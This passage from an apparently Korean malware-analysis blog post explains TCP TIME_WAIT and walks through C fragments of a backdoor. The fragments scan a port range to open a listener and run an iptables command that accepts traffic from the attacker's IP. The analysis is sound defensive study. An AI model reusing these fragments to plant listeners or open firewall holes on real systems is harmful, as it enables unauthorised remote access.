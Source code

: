         > **TIME_WAIT**
        >
        > TCP 연결이 종료될 때에는 클라이언트와 서버가 4-way handshake 과정을 거쳐 서로 `FIN` 패킷을 주고받아 연결을 안전하게 닫아야 한다. <br>
        > TCP 연결을 끊은 측은 `TIME_WAIT` 상태로 진입하여 일반적으로 **2 * MSL(Maximum Segment Lifetime)** 시간 동안 유지된다(60초에서 240초). `TIME_WAIT` 없이 연결을 끊은 측의 소켓을 소멸시키면 상대 측의 `FIN`에 대한 `ACK`를 제대로 받을 수 없어 계속해서 `FIN`을 전달하게 되는 문제가 발생한다. 또한, 네트워크에 남아있는 지연된 패킷이 도착했을 때에 새로운 연결로 오인되지 않아야 한다. <br>
        > 이 때문에 일정 시간을 두고 소켓을 종료함으로써 `ACK`를 제대로 받을 때까지 소켓을 소멸하지 않고 대기하는 `TIME_WAIT` 상태에 돌입하는 것이다.
        {: .prompt-warning }

        <br>

        ```c
        my_addr.sin_family = AF_INET;
        my_addr.sin_addr.s_addr = 0;
        ```

        - `AF_INET` : IPv4 사용
        - `0` : `INADDR_ANY`, 즉 모든 네트워크 인터페이스로부터의 연결을 허용

        ```c
        for (port = 42391; port < 43391; port++) {
            my_addr.sin_port = htons(port);
            if( bind(sock_fd,(struct sockaddr *)&my_addr,sizeof(struct sockaddr)) == -1 ){
                continue;
            }
            if( listen(sock_fd,1) == 0 ) {
                *p = port;
                return sock_fd;
            }
            close(sock_fd);
        }
        return -1;
        ```

        - `42391`번 포트부터 `43391`번 포트까지 순회하며 시스템에서 사용 가능한 포트를 찾을 때까지 탐색하고, for loop 끝까지 해당 범위 내에 가능한 포트가 없으면 `-1`을 반환한다.
        - 바인딩에 성공하면, `listen()`을 호출하여 소켓을 연결 대기 상태로 만듦. `1`은 최대 대기열 크기를 의미. `listen`이 성공하면 `0`을 반환하여 해당 포트를 사용하고 소켓 FD를 반환하여 함수 종료한다.
        - `listen`에 실패하면, 이전에 사용했던 `socket_fd`를 닫고 새로운 소켓을 `bind`

4. **공격자의 요청을 수신하기 위한 환경 구성**

    ```c
    snprintf(cmd, sizeof(cmd), inputfmt, ip);
    snprintf(dcmd, sizeof(dcmd), dinputfmt, ip);
    system(cmd);
    sleep(1);
    ```

    - 512 크기의 char 배열 `cmd`와 `dcmd`에 `inputfmt`, `dinputfmt`를 저장하고, 포맷스트링 변수에 `ip` 전달한다.
    - `inputfmt` - `cmd`

        ```
        /sbin/iptables -I INPUT -p tcp -s %s -j ACCEPT
        ```
